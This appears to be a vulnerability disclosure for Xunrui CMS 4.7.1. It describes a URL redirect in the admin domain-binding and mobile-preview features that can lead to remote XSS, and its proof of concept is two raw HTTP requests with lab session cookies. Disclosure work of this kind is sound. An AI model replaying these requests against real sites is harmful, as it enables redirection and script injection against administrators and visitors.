










# xunruicms-site_domain+mobile_demo-URL redirection causing remote XSS

## Supplier

https://www.xunruicms.com/down/

## Description

Xunrui CMS system is to help customers promote their products, services and brands on the Internet, create value for customers and realize their own value! URL redirection causing remote XSS vulnerability exists

## POC

在设置-域名绑定-项目域名-电脑域名变更

In Settings - Domain Binding - Project Domain - Computer Domain Name Change


首先替换www.baidu.com





```
POST /admin79f2ec220c7e.php?c=site_domain&m=edit HTTP/1.1
Host: 192.168.24.65:8080
Content-Length: 98
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/142.0.0.0 Safari/537.36
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.24.65:8080
Referer: http://192.168.24.65:8080/admin79f2ec220c7e.php?c=site_domain&m=index
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: b4f32742f89d7240215e8f04897f609e_member_uid=1; b4f32742f89d7240215e8f04897f609e_member_cookie=ed9217d3ada4ebab1be5f3ac10e77505; PHPCMF548bfec3975944bdebbbf4113b3e44d3member_uid=1; PHPCMF548bfec3975944bdebbbf4113b3e44d3member_cookie=af9cad3bdafee2d64cb9869846ad27b3; laravel_session=8ntK1kqs5gVf4lPS7trycJXP48OfBiYIUFhwZF45; e88f0ea50a570a3d08602276c4270c43_member_uid=1; e88f0ea50a570a3d08602276c4270c43_member_cookie=22a3d9e275de92de12f8bac6d270c35a; csrf_cookie_name=59da436d6ce748b18db4a32fb1c79c60; ci_session=dlr1k7q9r1a7gh4kmfn50p430q9iut83
Connection: close

is_form=1&is_admin=1&is_tips=&csrf_test_name=59da436d6ce748b18db4a32fb1c79c60&domain=www.baidu.com
```

然后点击手机域名-变更



进入后-点击预览网站



发现成功url跳转






```
GET /admin79f2ec220c7e.php?c=api&m=demo&name=mobile HTTP/1.1
Host: 192.168.24.65:8080
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/142.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.24.65:8080/admin79f2ec220c7e.php?c=site_mobile&m=index
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: b4f32742f89d7240215e8f04897f609e_member_uid=1; b4f32742f89d7240215e8f04897f609e_member_cookie=ed9217d3ada4ebab1be5f3ac10e77505; PHPCMF548bfec3975944bdebbbf4113b3e44d3member_uid=1; PHPCMF548bfec3975944bdebbbf4113b3e44d3member_cookie=af9cad3bdafee2d64cb9869846ad27b3; laravel_session=8ntK1kqs5gVf4lPS7trycJXP48OfBiYIUFhwZF45; e88f0ea50a570a3d08602276c4270c43_member_uid=1; e88f0ea50a570a3d08602276c4270c43_member_cookie=22a3d9e275de92de12f8bac6d270c35a; csrf_cookie_name=59da436d6ce748b18db4a32fb1c79c60; ci_session=dlr1k7q9r1a7gh4kmfn50p430q9iut83
Connection: close

```

如果替换远程服务器开一个XSS服务





替换，然后重复上述步骤可以触发远程XSS





## version

Vulnerabilities affect versions

| 迅睿CMS-Laravel版安装包     | 4.7.1 | 2025-11-11 |
| :-------------------------- | ----- | ---------- |
| 迅睿CMS-ThinkPHP版安装包    | 4.7.1 | 2025-11-11 |
| 迅睿CMS-CodeIgniter版安装包 | 4.7.1 | 2025-11-11 |